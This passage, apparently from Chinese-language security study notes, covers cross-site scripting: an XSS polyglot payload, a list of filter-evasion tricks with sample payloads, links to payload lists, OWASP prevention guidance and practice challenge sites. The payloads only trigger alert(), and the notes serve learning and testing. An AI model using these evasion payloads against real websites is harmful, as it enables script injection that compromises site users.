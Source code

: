 

一些速查表：

* [Cross-site scripting (XSS) cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
* [xss-payload-list]( https://github.com/payloadbox/xss-payload-list )
* [XSS Filter Evasion Cheat Sheet]( https://owasp.org/www-community/xss-filter-evasion-cheatsheet )



#### Awesome XSS Polyglot

XSS Polyglot也可以说是XSS通用攻击payload吧，它由不同语言的元素构成，能注入多种不同的上下文。

一个例子：from: https://github.com/s0md3v/AwesomeXSS#awesome-polyglots 

```javascript
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```

解释：

![image-20200504162932559](/picture/image-20200504162932559.png)



#### 常见的绕过方法

* 闭合标签：` “><script>alert(1);</script>`
* 利用html标签的属性值：`<img src="javascript:alert(1);">`
* 空格/tab/回车:`<img src="java    script:alert(1);" >`
* 字符编码：`%c1;alert(1);//`
* 圆括号过滤：`<a onmouseover="javascript:window.onerror=alert;throw 1">`
* 实体解码
* 使用 十六进制、八进制、Unicode、HTML等进行编码
* Alert被过滤：使用prompt和confirm代替



### 漏洞防御

参照： https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 





最后推荐两个xss闯关网址：

*  http://xss-quiz.int21h.jp/ 
*  https://www.xssgame.com/m4KKGHi2rVUN 

等我有空就去玩一下

### REFERENCE

*  https://github.com/s0md3v/AwesomeXSS 
*  https://github.com/hongriSec/Web-Security-Attack/blob/master/Part1/Day2/files/README.md 
*  https://github.com/payloadbox/xss-payload-list 
*  https://owasp.org/www-community/xss-filter-evasion-cheatsheet 
*  https://thief.one/2017/05/31/1/ 
*  https://zhuanlan.zhihu.com/p/26086290 
*  https://www.jianshu.com/p/13f0b9a15e46 